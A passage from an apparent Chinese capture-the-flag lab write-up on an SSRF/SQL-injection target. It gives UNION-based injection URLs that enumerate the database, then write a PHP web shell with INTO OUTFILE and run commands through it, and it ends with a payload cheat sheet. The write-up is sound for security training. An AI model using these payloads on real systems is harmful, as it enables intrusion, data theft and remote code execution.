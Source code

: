 ```mysql
http://172.72.23.23?id=0'%20union%20select%201,2,3,'<?php%20system($_GET[cmd]);?>'%20into%20dumpfile%20'/var/www/html/shell1.php'--+

http://172.72.23.23?id=0'%20union%20select%201,2,3,'<?php%20system($_GET[xxx]);?>'%20into%20outfile%20'/var/www/html/xxx.php'--+
```

![image-20240904194224613](https://image.201068.xyz/assets/29.SSRF/image-20240904194224613.png)

![image-20240904194502484](https://image.201068.xyz/assets/29.SSRF/image-20240904194502484.png)

##### 查看flag

```bash
http://172.72.23.23/shell1.php?cmd=cat%20/flag

http://172.72.23.23/xxx.php?xxx=cat%20/flag
```

![image-20240904194353151](https://image.201068.xyz/assets/29.SSRF/image-20240904194353151.png)

![image-20240904194619277](https://image.201068.xyz/assets/29.SSRF/image-20240904194619277.png)

#### flag6

```
flag{nisp6_complete_flag6}
```

#### sql注入总结

无%20，方便查看

```mysql
http://172.72.23.23?id=1' --+
http://172.72.23.23?id=1' order by 4--+
http://172.72.23.23?id=1' order by 5--+
http://172.72.23.23?id=0' union select 1,2,3,4--+

http://172.72.23.23?id=0' union select 1,2,3,group_concat(schema_name separator 0x3c62723e) from information_schema.schemata--+
http://172.72.23.23?id=0' union select 1,2,3,group_concat(table_name separator 0x3c62723e) from information_schema.tables where table_schema='db'--+
http://172.72.23.23?id=0' union select 1,2,3,group_concat(column_name separator 0x3c62723e) from information_schema.columns where table_name='flag_is_here'--+
http://172.72.23.23?id=0' union select 1,2,3,(select group_concat(content separator 0x3c62723e) from flag_is_here)--+
http://172.72.23.23?id=0' union select 1,2,3,'<?php system($_GET[cmd]);?>' into dumpfile '/var/www/html/shell1.php'--+
```



```mysql
http://172.72.23.23?id=0' union select 1,2,3,database() from information_schema.schemata--+
http://172.72.23.23?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database()--+
http://172.72.23.23?id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_schema=database()and table_name='flag_is_here'--+
http://172.72.23.23?id=0' union select 1,2,3,(select content from flag_is_here)--+
http://172.72.23.23?id=0' union select 1,2,3,'<?php system($_GET[xxx]);?>' into outfile '/var/www/html/xxx.php'--+
http://172.72.23.23/xxx.php?xxx=cat /flag
```
